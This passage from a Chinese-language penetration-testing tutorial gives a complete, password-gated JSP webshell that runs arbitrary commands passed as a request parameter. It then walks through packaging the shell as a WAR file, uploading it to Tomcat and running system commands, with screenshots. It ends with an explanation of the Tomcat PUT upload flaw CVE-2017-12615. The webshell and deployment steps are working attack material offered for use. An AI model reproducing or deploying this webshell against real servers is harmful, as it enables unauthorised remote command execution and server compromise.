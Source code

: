 1. 找到一个 jsp 的木马

```
<%
    if("023".equals(request.getParameter("pwd"))){
    java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();
    int a = -1;
    byte[] b = new byte[2048];
    out.print("<pre>");
    while((a=in.read(b))!=-1){
        out.println(new String(b));
    }
    out.print("</pre>");
}
%>
```

2. 将 sp 木马放入 jdk1.8.0_73bin 目录下，然后在 cmd 输出已下命令（注意是必须在 java 环境下的，必须使用管理员权限的）  

```
jar cvf  +部署的war木马 +自己bin目录下的jsp木马
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDCGs4Dkg8x3ZjFFZzAjRQicWP2WSKHDYRMY0KWDpTFSSzsMno63tLfSaVrvSIjkkZ5eYzdJ04SbBzw/640?wx_fmt=png)

木马制作成功

**上传制作的 war 木马**

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDCGs4Dkg8x3ZjFFZzAjRQicWau17ic1BicSiahvbULGzc3Teibib5xFXLJO57ws4YCG7ZZIciaTNiaqnpkoog/640?wx_fmt=png)

可以看到已经成功上传了木马

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDCGs4Dkg8x3ZjFFZzAjRQicWJGMe44OaSRYZ9dmhfsjxgaNnj1E0apOIc0pGshjeBiaOAd8KcS0nP3Q/640?wx_fmt=png)

访问上传的 1.jsp 目录然后就可以执行我们想要执行的系统命令

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDCGs4Dkg8x3ZjFFZzAjRQicWLImvDSg1tiaeoZ17kqrhmPZkOSPpnXUodKtBNubjjkF3TNo0nKo0L1w/640?wx_fmt=png)

**CVE-2017-12615Tomcat 远程代码执行漏洞 (PUT 请求)**

**漏洞介绍**

    远程代码执行漏洞（CVE-2017-12615） 影响：Apache Tomcat 7.0.0 - 7.0.79（7.0.81 修复不完全）当 Tomcat 运行在 Windows 主机上，且启用了 HTTP PUT 请求方法，攻击者通过构造的攻击请求向服务器上传包含任意代码的 JSP 文件，造成任意代码执行，危害十分严重

**影响版本**

    Apache Tomcat 7.0.0 - 7.0.81

**漏洞利用前提:**

    需 Tomcat 开启了 HTTP PUT 请求

**漏洞原理分析**

   Tomcat 的 Servlet 是在 conf/web.xml 配置的，通过配置文件可知，当后缀名为 .jsp 和 .jspx 的时候，是通过 JspServlet 处理请求的：而其他的静态文件是通过 DefaultServlet 处理的：可以得知，“1.jsp”（末尾有一个和空格）并不能匹配到 JspServlet，而是会交由 DefaultServlet 去处理。  
    当处理 PUT 请求时：会调用 resources.bind：dirContext 为 FileDirContext：调用 rebind 创建文件：又由于 Windows 不允许 “ ” 作为文件名结尾，所以会创建一个 .jsp 文件，导致代码执行。
